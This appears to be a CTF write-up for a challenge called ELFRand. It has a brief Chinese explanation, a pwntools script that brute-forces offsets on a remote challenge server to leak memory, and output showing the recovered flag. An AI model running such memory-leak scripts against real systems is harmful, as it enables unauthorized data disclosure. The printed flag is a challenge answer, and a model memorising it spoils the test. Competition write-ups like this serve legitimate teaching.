 
### ELFRand

> 
固定地址,暴力跑就可以了,可以发现flag位置前后距离不一样,0x10,0x20,可以这样二分查找,懒得写了,就多跑几遍暴力吧.

```python
	# -*- coding: utf-8 -*-

from pwn import *
import re


base = 0xb2890
while 1:
	p = remote("210.32.4.13", 13372)
	for i in range(-10,10):
		tem  = i
		p.recvuntil("offset: ")
		p.sendline(str(hex(base+i*0x60*10))[2:])
		data  = p.recv(16)
		xx = data.decode("hex")
		print xx
		if "\x00\x00\x00\x00\x00\x00\x00\x00"== xx and tem==-10:
			base = base+0x20
		# if "\x00\x00\x00\x00\x00\x00\x00\x00"== xx and tem!=-10:
		# 	for j in range(1,10):
		# 		p.recvuntil("offset: ")
		# 		p.sendline(str(hex(base+(tem-1)*0x60*20+0x60*j))[2:])
		# 		data  = p.recv(16)
		# 		xx = data.decode("hex")
		# 		print xx
		elif not re.match("[0-9a-f]{8}", xx):
			print "hhhhhhhhhhhhhhhhhhhhhhhhh"
			for j in range(-2,8):
				p.recvuntil("offset: ")
				p.sendline(str(hex(base+tem*0x60*10+8*j))[2:])
				data  = p.recv(16)
				xx = data.decode("hex")
				print xx
	p.close()


[*] Closed connection to 210.32.4.13 port 13372
[+] Opening connection to 210.32.4.13 on port 13372: Done
\x00\x00\x00\x00\x00\x00\x00\x00
bf53c3ce
52eb1445
d5ea3ebd
8e5bd798
abd71e54
a02ca07b
2ecab3ac
_123_bef
hhhhhhhhhhhhhhhhhhhhhhhhh
EIS{need
_to_know
_123_bef
ore_hack
ing_lol}
\x00\x00\x00\x00\x00\x00\x00\x00
\x00\x00\x00\x00\x00\x00\x00\x00
\x00\x00\x00\x00\x00\x00\x00\x00
82704618
```
